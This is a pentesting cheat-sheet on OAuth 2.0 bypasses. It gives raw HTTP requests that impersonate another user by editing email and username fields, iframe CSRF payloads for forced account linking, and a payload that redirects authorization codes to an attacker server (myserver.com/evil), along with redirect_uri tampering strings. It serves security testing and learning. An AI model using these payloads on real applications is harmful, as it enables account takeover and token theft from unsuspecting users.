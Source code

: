 # OAuth 2.0 Bypass

## Introduction

OAuth is a commonly used authorization framework that enables websites and web applications to request limited access to a user's account on another application. Crucially, OAuth allows the user to grant this access without exposing their login credentials to the requesting application.

## Vulnerabilities in the OAuth client application

Client applications will often use a reputable, battle-hardened OAuth service that is well protected against widely known exploits. However, their own side of the implementation may be less secure.

### **Improper implementation of the implicit grant type**

Once the OAuth 2.0 flow is completed and the token is assigned, the information is sent to the application (username, email and the token). We can bypass the authentication by changing the email and username of the request:

```
# Original Request

POST /authenticate HTTP/1.1
Host: oauth-test.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https:/oauth-test.com/oauth-callback
Content-Type: application/json
Origin: https://app-test.com
Content-Length: 103
Connection: close
Cookie: session=Pjx1J1HBlOKuYpE6ngdvP0lwKrc6N6xn


{
    "email":"user@test.com",
    "username":"user",
    "token":"0Uk8oyhR95JLrFnDdsgFBcHdcH1Tcz8GmLoZe6ECOAi"
}
```

```
# Edited Request

POST /authenticate HTTP/1.1
Host: oauth-test.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https:/oauth-test.com/oauth-callback
Content-Type: application/json
Origin: https://app-test.com
Content-Length: 103
Connection: close
Cookie: session=Pjx1J1HBlOKuYpE6ngdvP0lwKrc6N6xn


{
    "email":"another@test.com",
    "username":"another",
    "token":"0Uk8oyhR95JLrFnDdsgFBcHdcH1Tcz8GmLoZe6ECOAi"
}
```

### **Flawed CSRF protection (no state parameter)**

Although many components of the OAuth flows are optional, some of them are strongly recommended unless there's an important reason not to use them. One such example is the `state` parameter.

The `state` parameter should ideally contain an unguessable value, such as the hash of something tied to the user's session when it first initiates the OAuth flow. This value is then passed back and forth between the client application and the OAuth service as a form of [CSRF token](https://portswigger.net/web-security/csrf/tokens) for the client application.

Since this state parameter is not available in the request we can link our profile media to an existing account by exploiting a CSRF attack:

```
# CSRF vulnerable request

GET /oauth-linking?code=FIKlXwX7-cq6Xz0nsWmYUhqu1rwrRmKL9haVHOA7zVv HTTP/1.1
Host: app.test.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://exploit.test.com/exploit
Cookie: session=4UxlhSNG2r19csEDsUySJwHtVPSyE4eE
Upgrade-Insecure-Requests: 1

```

Payload:

```
# index.html

<iframe src="https://app.test.com/oauth-linking?code=FIKlXwX7-cq6Xz0nsWmYUhqu1rwrRmKL9haVHOA7zVv">
</iframe>
```

### Leaking authorization codes and access tokens

Depending on the grant type, either a code or token is sent via the victim's browser to the `/callback` endpoint specified in the `redirect_uri` parameter of the authorization request. If the OAuth service fails to validate this URI properly, an attacker may be able to construct a CSRF-like attack, tricking the victim's browser into initiating an OAuth flow that will send the code or token to an attacker-controlled `redirect_uri`.

In the case of the authorization code flow, an attacker can potentially steal the victim's code before it is used. They can then send this code to the client application's legitimate `/callback` endpoint (the original `redirect_uri`) to get access to the user's account.

```
# CSRF Vulnerable Request
# Modify the redirect_uri to a coontrolled server

GET /auth?client_id=zg8andmpp2lfjqidng0tr&redirect_uri=https://myserver.com/evil&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: oauth-server.example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _session=7rn_lI1PoVH0bMKi3_Cmq; _session.legacy=7rn_lI1PoVH0bMKi3_Cmq
Upgrade-Insecure-Requests: 1
```

Payload:

```
#index.html

<iframe src="https://oauth-server.example.com/auth?client_id=zg8andmpp2lfjqidng0tr&redirect_uri=https://myserver.com/evil&response_type=code&scope=openid%20profile%20email">
</iframe>
```

## **Pentesting OAuth 2.0**

### **redirect\_uri validation**

`redirect_uri` parameter should be validated via white list, but sometimes is misconfigured and leads to flaws and vulnerabilities. Things to check:

* Try to remove or add arbitrary paths, query parameters, and fragments to see what you can change without triggering an error.
* Try to append extra values to the default `redirect_uri` parameter: `https://example.com &@foo.evil.com#@bar.evil.com/` .
* Try duplicate `redirect_uri` parameter.
* Begin with `localhost` : `http://localhost.evil.com/`.

## References

* [https://portswigger.net/web-security/oauth](https://portswigger.net/web-security/oauth)
